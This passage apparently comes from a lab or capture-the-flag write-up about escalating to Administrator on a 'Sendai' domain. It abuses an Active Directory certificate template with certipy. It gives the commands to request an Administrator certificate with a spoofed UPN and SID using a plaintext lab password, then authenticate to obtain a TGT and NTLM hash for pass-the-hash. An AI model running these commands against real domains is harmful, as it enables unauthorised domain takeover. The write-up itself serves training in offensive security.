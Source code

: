 ![8da3d8a414eff0af149b6029124d4fb2.png](/resources/8da3d8a414eff0af149b6029124d4fb2.png)

Next I send a request to get a certificate of Administrator user and we can see that I've successfully obtained a certificate of Administrator user as `administrator.pfx` file.
```
certipy req -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.129.234.66 -ca 'sendai-DC-CA' -template 'SendaiComputer' -upn 'Administrator@sendai.vl' -sid 'S-1-5-21-3085872742-570972823-736764132-500'
```
![482a7a74e27ae572376664b78732ad72.png](/resources/482a7a74e27ae572376664b78732ad72.png)

Using the certificate file, I requested for TGT of the Administrator user and obtain NTLM hash which we can either use ccache file to authenticate to the machine or use NTLM with pass-the-hash to gain access. both ways are valid here.
```
certipy auth -pfx 'administrator.pfx' -dc-ip '10.129.234.66'
```
![a1494a9458faf287c905040d94ee0ccb.png](/resources/a1494a9458faf287c905040d94ee0ccb.png)
